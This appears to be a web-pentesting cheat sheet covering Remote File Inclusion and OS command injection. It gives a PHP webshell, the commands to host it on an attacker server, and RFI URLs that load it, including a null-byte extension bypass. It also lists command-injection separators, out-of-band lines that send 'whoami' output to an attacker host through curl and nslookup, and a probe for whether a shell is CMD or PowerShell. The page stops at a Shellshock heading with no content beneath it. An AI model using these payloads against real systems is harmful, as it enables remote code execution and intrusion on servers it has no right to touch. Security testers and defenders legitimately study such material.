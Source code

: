 ### Remote File Inclusion (RFI)

#### RFI to Webshell with null byte for image extension bypass

```
echo "<?php echo shell_exec($_GET['cmd']); ?>" > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.php%00.png
```

#### RFI to Webshell with txt

```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.txt&cmd=ipconfig
```

## OS Command Injection

- Special Characters

```
& command
&& command
; command
command %0A command
| command
|| command
`command`
$(command)
```

- Out Of Band - OOB Exploitation

```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
curl http://192.168.0.20/$(whoami)
```

- Check if the commands are executed by PowerShell or CMD

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Common Exploits

### Shellshock
